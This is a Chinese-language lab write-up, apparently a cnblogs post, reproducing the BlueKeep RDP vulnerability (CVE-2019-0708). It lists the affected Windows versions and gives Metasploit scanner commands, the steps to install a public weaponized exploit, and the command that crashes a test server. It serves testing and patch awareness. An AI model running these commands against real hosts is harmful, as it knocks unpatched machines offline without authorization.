

# CVE-2019-0708 漏洞复现 - APT-101 - 博客园

> 原文：[`www.cnblogs.com/hack404/p/11338900.html`](https://www.cnblogs.com/hack404/p/11338900.html)

前言：

该漏洞前段时间已经热闹了好一阵子了，HW 期间更是使用此漏洞来进行钓鱼等一系列活动，可为大家也是对此漏洞的关心程度，接下里就简单的演示下利用此漏洞进行 DOS 攻击。当然还有 RCE 的操作，这只演示下蓝屏 DOS 操作。

漏洞影响的操作系统：

*   Windows 2003
*   Windows XP
*   Windows Vista
*   Windows 7
*   Windows Server 2008
*   Windows Server 2008 R2

实验环境：

parrot linux：10.10.202.8/24

Windows server 2008 R2： 10.10.202.9/24

首先进行扫描，此漏洞的前提开启 3389 远程桌面。

这里使用 msf 进行扫描，注意 msf 升级到最新的 msf5

msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.202.9
rhosts => 10.10.202.9
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > exploit

接下来我们使用 exp 来进行攻击

# git clone https://github.com/Ekultek/BlueKeep

# cd BlueKeep

# pip install -r requirements.txt

# ./setup.sh

执行完以上就顺利安装完成。我们进行攻击下

执行 payload：

└──╼ $sudo python bluekeep_weaponized_dos.py  -i 10.10.202.9

瞬间就挂了，可以看到漏洞还是很严重的，请各位还是尽快的打补丁吧！